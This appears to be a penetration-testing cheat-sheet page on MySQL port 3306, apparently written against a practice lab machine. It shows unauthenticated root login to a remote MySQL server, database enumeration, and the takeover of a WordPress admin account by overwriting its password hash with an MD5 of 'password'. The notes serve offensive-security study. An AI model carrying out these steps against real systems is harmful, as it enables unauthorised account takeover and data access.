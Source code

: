 ```yaml
---
layout: default
title: 3306 | MYSQL
parent: Service Enumeration
nav_order: 5
---
```


# 3306 | MYSQL

---

## Connect to Remote MySQL Server

```bash
mysql -h 192.71.145.3 -u root
```

### Show Databases

```sql
show databases;
```

### Use Table and Select Records

```sql
use books;
select count(*) from authors;
```

## Change Admin Password

We have root access to the _wp_users_ table and can change the admin password to an MD5 hash.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/sunsetmidnight]
└─$ echo -n password | md5sum
5f4dcc3b5aa765d61d8327deb882cf99  -

# Change the admin user password to the MD5 hash above

MariaDB [wordpress_db]> UPDATE wp_users SET user_pass="5f4dcc3b5aa765d61d8327deb882cf99" WHERE ID=1;
Query OK, 1 row affected (0.059 sec)
Rows matched: 1  Changed: 1  Warnings: 0

# Validate the admin user hash has changed to the value we set

MariaDB [wordpress_db]> select * from wp_users;
+----+------------+----------------------------------+---------------+---------------------+------------------------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                        | user_nicename | user_email          | user_url               | user_registered     | user_activation_key | user_status | display_name |
+----+------------+----------------------------------+---------------+---------------------+------------------------+---------------------+---------------------+-------------+--------------+
|  1 | admin      | 5f4dcc3b5aa765d61d8327deb882cf99 | admin         | example@example.com | http://sunset-midnight | 2020-07-16 19:10:47 |                     |           0 | admin        |
+----+------------+----------------------------------+---------------+---------------------+------------------------+---------------------+---------------------+-------------+--------------+
1 row in set (0.056 sec)



```
